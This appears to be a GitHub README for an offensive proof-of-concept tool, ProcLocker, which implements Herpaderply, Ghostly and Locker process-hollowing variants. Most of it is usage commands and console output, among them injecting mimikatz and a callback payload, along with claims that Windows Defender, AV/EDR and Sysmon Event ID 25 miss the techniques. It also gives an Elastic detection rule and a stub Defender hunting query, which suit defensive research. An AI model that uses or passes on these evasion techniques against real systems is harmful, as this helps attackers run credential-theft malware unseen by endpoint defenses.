




# Herpaderply Hollowing | Ghostly Hollowing | Locker Hollowing
This is just a PoC script of Herpaderply Hollowing, Ghostly Hollowing and Locker Hollowing. See how to encrypt payload and self inject in [PELoader](https://github.com/Hagrid29/PELoader).

Process Locker is my version of variation of Process Herpaderping. Instead of overwriting the payload just after the execution, Process Locker duplicate the file handle of payload to a running process in order to "lock" the file. The "locked" payload usually not examined by AV/EDR.


Credits: most of my work was based on @hasherezade's [PoC](https://github.com/hasherezade/transacted_hollowing).

## Characteristics of each hollowing 

- Payload mapped as `MEM_IMAGE`
- Sections mapped with original access rights (no `RWX`)
- Payload connected to PEB as the main module

### Herpaderply Hollowing

Herpaderply Hollowing is a hybrid between Process Hollowing and [Process Herpaderping](https://jxy-s.github.io/herpaderping/)



Process Herpaderping

```
cmd> .\ProcLocker.exe herpaderp process callback.exe 
```

Herpaderply Hollowing

```
cmd> .\ProcLocker.exe herpaderp hollow callback.exe 
[+] Created temp file: C:\Users\XXX\AppData\Local\Temp\TH1F9C.tmp
[+] Written!
[+] Overwriting file content
[+] Created Process PID: 21812
[+] Resuming PID 21812
[+] Done!
```


Windows Defender detect Process Herpaderping while failed to detect Herpaderply Hollowing

Elastic suggest to identify process execution followed by a file overwrite of an executable by the same parent process. [ref](https://www.elastic.co/guide/en/security/current/potential-process-herpaderping-attempt.html)

```
sequence with maxspan=5s [process where event.type == "start" and
not process.parent.executable :
"C:\\Windows\\SoftwareDistribution\\*.exe"] by host.id,
process.executable, process.parent.entity_id [file where event.type
== "change" and event.action == "overwrite" and file.extension ==
"exe"] by host.id, file.path, process.entity_id
```


### Ghostly Hollowing

[Ghostly Hollowing](https://github.com/hasherezade/transacted_hollowing#ghostly-hollowing) is a hybrid between Process Hollowing and Process Ghosting



Process Ghosting

```
cmd> .\ProcLocker.exe ghost process mimikatz.exe
```

Ghostly Hollowing

```
cmd> .\ProcLocker.exe ghost hollow callback.exe
```


Windows Defender failed to detect Process Ghosting and Ghostly Hollowing.

The program map the payload from a delete pending file. It could be an indicator of process ghosting or ghostly hollowing. I wrote a MDE rule for example below.

```
DeviceImageLoadEvents
| where TimeStamp >= ago(1h)
| where SHA1 == ""
```


### Locker Hollowing

Locker Hollowing is a hybrid between Process Hollowing and Process Locker.



Locker Hollowing

```
.\ProcLocker.exe locker process mimikatz.exe 19408 auto
[+] Created temp file: C:\Users\xxx\AppData\Local\Temp\TH82F6.tmp
[+] Written!
[+] Duplicating file handle to 19408
[+] File locked 
[+] Process created! Pid = 11976
[+] Done!
```

First "lock" the payload by duplicating file handle to a running process. Then map the payload from the "locked" file and execute it. Finally, clean up the "locked" payload.

```
cmd> .\ProcLocker.exe lock mimikatz.exe 19408
[+] Created temp file: C:\Users\xxx\AppData\Local\Temp\TH1827.tmp
[+] Written!
[+] Duplicating file handle to 19408
[+] File locked

cmd> .\ProcLocker.exe locker process TH1827.tmp 19408 exec
[+] Getting system handle list
[+] Found remote file handle of "\Users\xxx\AppData\Local\Temp\TH1827.tmp"
[+] Duplicating file handle to current process
[+] Process created! Pid = 12080
[+] Done!

.\ProcLocker.exe clear TH1827.tmp 19408 
[+] Getting system handle list
[+] Found remote file handle of "\Users\xxx\AppData\Local\Temp\TH1827.tmp"
[+] Duplicating file handle to current process
[+] Releasing the file handle. You can manually remove the file
[+] Overwriting file content
```


Windows Defender detect Process Lockering while failed to detect Locker Hollowing.

The program map the payload from a "locked" file. It could be an indicator of process Lockering.


### Sysmon Event ID 25

Sysmon Event ID 25 triggers "when the mapped image of a process doesn't match the on-disk image file, or the image file is locked for exclusive access."

It would be logged for process herpaderping, process ghosting and process lockering. However, it would not be logged for Herpaderply Hollowing, Ghostly Hollowing or Locker Hollowing.




## References

* https://jxy-s.github.io/herpaderping/
* https://github.com/hasherezade/transacted_hollowing
* https://www.x86matthew.com/view_post?id=hijack_file_handle


